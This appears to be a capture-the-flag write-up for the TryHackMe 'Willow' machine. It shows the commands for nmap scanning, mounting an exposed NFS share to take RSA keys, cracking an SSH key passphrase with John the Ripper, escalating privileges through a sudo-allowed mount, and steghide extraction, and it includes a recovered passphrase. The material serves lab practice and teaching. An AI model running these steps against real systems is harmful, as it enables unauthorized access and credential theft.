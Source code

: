 # Willow

## Scanning

```bash
furious 10.10.192.59
nmap -sC -sV -p 22,111,2049,80 10.10.192.59 -n -Pn -oN targeted
```

![012116.png](012116.png)

## 80

![000534.png](000534.png)

we try with hexadecimal to ascii

![005736.png](005736.png)

## 2049

```bash
showmount -e 10.10.192.59
```

> ```bash
> Export list for 10.10.192.59:
> /var/failsafe *
> ```

```bash 
mkdir /mnt/Willow
mount -t nfs 10.10.192.59:/var/failsafe /mnt/Willow -o nolock
ls /mnt/Willow
# rsa_keys
cp /mnt/Willow/rsa_keys .
cat rsa_keys
```

![014527.png](014527.png)

I'm using https://www.aldeid.com/wiki/TryHackMe-Willow to decrypt the message that we have found, with the Private key Pair from rsa_keys.

![010732.png](010732.png)

```bash
sudo ssh -i id_rsa 10.10.192.59
```



![014038.png](014038.png)

```bash
locate 2john| grep ssh
# /usr/share/john/ssh2john.py
/usr/share/john/ssh2john.py id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![012941.png](012941.png)

Now we could enter with ssh

![013542.png](013542.png)

### user flag

we code the image with base 64 to save the file in user.64 and decode it in our machine

```bash
# victim machine
base64 user.jpg
# attacker machine
base64 -d user.64 > user.png
fim user.png
```

![013158.png](013158.png)

## Privilege Scalation

```bash
sudo -l
```

![213459.png](213459.png)

```bash
ls -l /dev
```

![225800.png](225800.png)

```bash
mkdir bkup
sudo /bin/mount /dev/hidde_backup /home/willow/bkup
cd bkup
cat creds.txt
```

![225303.png](225303.png)

Now we have to enter to root with `su root`. But when we see the ``root.txt`` file we see that we have to find another file...

![225306.png](225306.png)

we use the passphrase `7QvbvBTvwPspUK` in the user.png file that we found before:

```bash
steghide extract -sf user.png
```

![225411.png](225411.png)